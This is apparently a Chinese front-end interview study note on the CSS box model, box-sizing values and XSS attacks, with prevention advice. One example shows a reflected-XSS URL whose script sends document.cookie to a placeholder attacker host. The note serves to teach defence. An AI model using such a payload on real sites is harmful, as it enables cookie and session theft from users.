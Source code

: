 > [参考](https://segmentfault.com/a/1190000006104095)

---

## CSS盒模型

每个元素都表示为一个矩形的盒子。渲染引擎的目的，就是确定这些盒子的尺寸，属性和位置。

![box-model]({{ '/styles/images/interview/box-model.svg' | prepend: site.baseurl }})

+ 内容区: 包含元素真实内容的区域。`height`和`width`用来指定内容区的高度
+ 内边距: 内容与边框之间的间隔。这段距离使用`padding`控制
+ 边框: 边框很好理解，可以设置为不可见(`0px`)。有`boder-width`/`border-style`/`boder-color`等属性
+ 外边距: 用于将两个标签隔开。`margin`控制

> 有些属性，比如`background-color`，会填充边框以内的空白，包括内边距部分。

![box-model]({{ '/styles/images/interview/box-model.png' | prepend: site.baseurl }})

所以盒子边框如何计算。总宽度 = 宽度 + 左右内边距 + 左右边框宽度 + 左右外边距。

CSS3增加了一种新的计算盒子宽度的方式 - `box-sizing`。有三个可选值

+ `content-box`: 浏览器计算宽度和高度的常规方式，默认方式。边框和内边距加到所设宽度和高度上，用来确定元素在屏幕中所占的宽度和高度。
+ `padding-box`: width 和 height属性的值包括内边距。
+ `border-box`: 内边距和边框的宽度都包含在width 和 height中。

> [参考](https://leohxj.gitbooks.io/front-end-database/html-and-css-basic/box-module.html)

---

## 前端安全

#### XSS攻击

XSS(Cross-Site Scripting): 跨站脚本攻击。它允许攻击者将恶意代码植入到用户使用的页面中。攻击目标是**为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息**。

XSS通常可以分为两大类：一类是**存储型XSS**，主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。这个流程简单可以描述为:恶意用户的Html输入Web程序->进入数据库->Web程序->用户浏览器。另一类是**反射型XSS**，主要做法是将脚本代码加入URL地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。

XSS的原理

Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。

> 比如: 访问有个网站http://127.0.0.1/?name=qiaoshengchuan会输出用户名字。如果恶意用户传递这样的url：http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;，这样就可以把当前的cookie发送到指定的站点：www.xxx.com。

如何预防XSS

答案很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。

+ 将用户所提供的内容进行过滤
+ 使用HTTP头指定类型
